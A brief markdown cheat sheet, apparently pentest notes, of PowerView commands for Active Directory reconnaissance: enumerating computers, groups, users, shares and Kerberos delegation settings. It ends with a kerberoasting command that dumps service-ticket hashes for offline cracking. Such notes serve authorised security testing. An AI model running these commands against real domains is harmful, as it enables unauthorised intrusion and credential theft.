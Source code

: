 # Active Directory

## Reconnaissance

### Computers
```powershell (PowerView)
Get-NetComputer -Properties samaccountname, samaccounttype, operatingsystem
```

### Groups
```powershell (PowerView)
Get-NetGroup -Domain <domain> | select name
```

```powershell (PowerView)
Get-DomainGroupMember "<group>" -Recurse
```

### User
```powershell (PowerView)
Get-DomainUser
```

### Shares
```powershell (PowerView)
Find-DomainShare -CheckShareAccess
```

### Kerberos
* unconstrained delegation
```powershell (PowerView)
Get-DomainComputer -Unconstrained
```

* constrained delegation
```powershell (PowerView)
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

* resource-based constrained delegation
```powershell (PowerView)
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

```powershell (PowerView)
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota
```


* kerberoast
```powershell (PowerView)
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv C:\Windows\Temp\kerberoast.csv -NoTypeInformation
```
